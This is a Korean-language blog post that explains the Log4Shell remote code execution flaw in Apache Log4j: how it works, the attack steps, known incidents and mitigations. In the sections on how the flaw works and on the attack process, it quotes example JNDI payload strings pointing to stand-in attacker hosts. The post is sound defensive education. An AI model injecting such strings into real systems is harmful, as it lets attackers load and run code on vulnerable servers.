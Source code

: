 ```yaml
---
layout: post
title:  LOG4shell 보고서
date:   2025-03-24
category: Design
image: assets/img/5_28_work/log4shell.jpg
author: 이태강
tags: code
---
```


1.	Log4Shell이란?
Apache Log4j라는 Java 기반 로깅 라이브러리에서 발견된 원격 코드 실행(RCE) 취약점
1.	높은 위험도: CVSS 점수 10점(최고 점수)을 받았으며, 광범위한 영향으로 인해 매우 위험합니다.
2.	영향받는 버전: Apache Log4j 2.0-beta9부터 2.14.1 사이의 버전이 취약합니다
2. 취약점의 원리
Log4Shell은 JNDI(Java Naming and Directory Interface) Lookup 기능의 취약점을 악용합니다:
1.	JNDI Lookup의 동작: Log4j는 로그 메시지 내 특정 문자열(예: ${jndi:ldap://attacker.com/a})을 처리할 때 JNDI를 호출하여 외부 서버와 통신합니다.
2.	검증 부족: JNDI 호출 시 외부 디렉토리 서비스(LDAP, RMI 등)에서 데이터를 불러오는데, 이 과정에서 입력값 검증이 제대로 이루어지지 않았습니다.
3.	악성 코드 실행: 공격자는 악성 페이로드를 포함한 URL을 삽입하여 Log4j가 이를 처리하도록 유도하고, 서버가 공격자의 LDAP 서버에서 악성 클래스를 다운로드 및 실행하게 만듭니다.

3. 공격 과정

1.	악성 문자열 삽입:
공격자는 로그 메시지에 ${jndi:ldap://malicious-server}와 같은 악성 문자열을 삽입합니다. 이 문자열은 Log4j가 JNDI(Java Naming and Directory Interface) 호출로 처리하도록 설계되었습니다.
2.	JNDI Lookup 수행:
Log4j는 로그 메시지를 처리할 때 JNDI Lookup 기능을 통해 외부 서버(예: ldap://malicious-server)와 통신합니다. 이때, 입력값에 대한 검증이 이루어지지 않아 공격자의 서버로 연결됩니다.
3.	악성 Java 클래스 반환:
공격자의 LDAP 서버는 악성 Java 클래스 파일을 반환합니다. 이 파일은 공격자가 미리 설계한 페이로드를 포함하고 있습니다.
4.	피해 서버에서 실행:
피해 서버는 반환된 Java 클래스를 역직렬화하거나 실행합니다. 이로 인해 공격자는 피해 서버에서 임의의 코드를 실행하거나 시스템을 제어할 수 있게 됩니다

  
4. 피해 사례
   Log4Shell은 전 세계적으로 광범위한 영향을 미쳤으며, 다음과 같은 주요 사례가 보고되었습니다:
•	Minecraft: 게임 내 채팅창에 악성 문자열을 입력해 서버를 장악하는 방식으로 Khonsari 랜섬웨어가 유포되었습니다.
•	대형 기업: Twitter, Cisco, VMware 등 여러 글로벌 기업이 영향을 받았으며, 해커들은 크립토마이닝, 파일리스 멀웨어 등을 배포했습니다.
•	국가 차원의 공격: 중국, 이란, 북한 등과 관련된 해커들이 이 취약점을 악용한 것으로 나타났습니다.
5. 방어 방법
   Log4Shell 취약점을 방어하기 위해 다음과 같은 조치가 권장됩니다:

1.	Log4j 업데이트:
Apache에서 제공한 패치 버전(2.15.0 이상)으로 즉시 업데이트합니다.
최신 버전(2.17.x)을 사용하는 것이 가장 안전합니다.

2.	JNDI Lookup 비활성화:
log4j2.formatMsgNoLookups=true 옵션을 설정하거나, %m을 %m{nolookups}로 변경하여 JNDI 호출을 차단합니다.

3.	네트워크 보안 강화:
IDS/IPS(침입 탐지/방지 시스템)를 사용해 의심스러운 트래픽을 차단합니다.
방화벽 규칙을 설정해 외부 LDAP/RMI 요청을 제한합니다.

4.	대체 라이브러리 사용:
Logback 등 다른 로깅 라이브러리로 교체
